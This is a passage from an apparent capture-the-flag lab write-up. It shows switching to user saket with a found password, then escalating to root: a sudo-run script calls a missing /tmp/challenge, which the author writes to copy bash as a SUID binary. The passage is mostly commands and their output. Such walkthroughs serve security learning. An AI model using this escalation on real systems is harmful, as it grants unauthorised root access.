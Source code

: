 	Victor,www-data@ubuntu:/home/saket$ 
	```
	- victor:tribute_to_ippsec
14. Switch to user saket
	```
	saket@ubuntu:~$ su saket
	Password: tribute_to_ippsec
	saket@ubuntu:~$ 
	```
	![](images/Pasted%20image%2020220122034745.png)
	
## Root - Via Sudo + 
1. Check for sudo access 
	```
	saket@ubuntu:~$ sudo -l
	Matching Defaults entries for saket on ubuntu:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User saket may run the following commands on ubuntu:
		(root) NOPASSWD: /home/victor/undefeated_victor
	saket@ubuntu:~$ 
	```
2. Execute `/home/victor/undefeated_victor`
	```
	saket@ubuntu:~$ sudo /home/victor/undefeated_victor
	if you can defeat me then challenge me in front of you
	/home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
	```
	- Binary is trying to open/access `/tmp/challenge` 
3. Create `/tmp/challenge`, that will create rootbash, allowing us to obtain root.
	```
	printf '#!/bin/bash\n\ncp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash\n' > /tmp/challenge; chmod 4777 /tmp/challenge;
	```
4. Execute `/home/victor/undefeated_victor`, obtaining root shell
	```
	saket@ubuntu:~$ sudo /home/victor/undefeated_victor
	if you can defeat me then challenge me in front of you
	saket@ubuntu:~$ ls -l /tmp
	total 1952
	-rwsrwxrwx 1 saket    saket         67 Jan 21 11:41 challenge
	drwxrwxrwx 3 www-data www-data    4096 Jan 21 10:10 home
	-rw-rw-rw- 1 www-data www-data  157929 Jan 21 10:20 linpeas.out
	-rwxrwxrwx 1 www-data www-data  762836 Dec 31 07:16 linpeas.sh
	-rw-rw-rw- 1 www-data www-data     174 Jan 21 10:10 myfiles.zip
	-rwsr-xr-x 1 root     root     1037528 Jan 21 11:41 rootbash
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-colord.service-BhFB5M
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-rtkit-daemon.service-Ag5X2A
	drwx------ 3 root     root        4096 Jan 21 08:53 systemd-private-da7327ba5fda4813bbe7f7867c8991dd-systemd-timesyncd.service-HUin4K
	drwxrwxrwt 2 root     root        4096 Jan 21 08:53 VMwareDnD
	drwx------ 2 root     root        4096 Jan 21 08:53 vmware-root
	saket@ubuntu:~$ /tmp/rootbash -p
	rootbash-4.3# whoami
	root
	rootbash-4.3# 
	```